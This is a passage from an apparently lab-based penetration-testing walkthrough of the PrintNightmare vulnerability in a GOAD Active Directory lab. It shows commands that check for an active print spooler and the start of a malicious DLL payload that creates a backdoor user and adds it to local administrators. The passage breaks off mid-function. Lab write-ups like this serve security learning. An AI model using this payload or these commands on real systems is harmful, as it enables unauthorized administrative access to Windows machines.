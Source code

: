 ### Check spooler is active

- With cme

```shell
cme smb 192.168.56.10-23 -M spooler
```

![cme_check_spooler.png](/assets/blog/GOAD/cme_check_spooler.png)


- With impacket rpcdump

```shell
rpcdump.py @192.168.56.10 | egrep 'MS-RPRN|MS-PAR'
```

![printnightmare_check_rpcdump.png](/assets/blog/GOAD/printnightmare_check_rpcdump.png)

### Prepare impacket

- To exploit with cube0x0 script you no longer need the modified impacket version as the modifications as been merged in the main project:
  - [https://github.com/SecureAuthCorp/impacket/pull/1114](https://github.com/SecureAuthCorp/impacket/pull/1114)
  - [https://github.com/SecureAuthCorp/impacket/pull/1109](https://github.com/SecureAuthCorp/impacket/pull/1109)

### Prepare the dll

- Let's prepare the exploitation dll
- We will create a user and add it as local administrator
- Create the file nightmare.c:

```c
#include <windows.h> 

int RunCMD()
{
    system("net users pnightmare Passw0rd123. /add");
    system("net localgroup administrators pnightmare /add");
    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD ul_reason_for_call,
    LPVOID lpReserved
)
{
```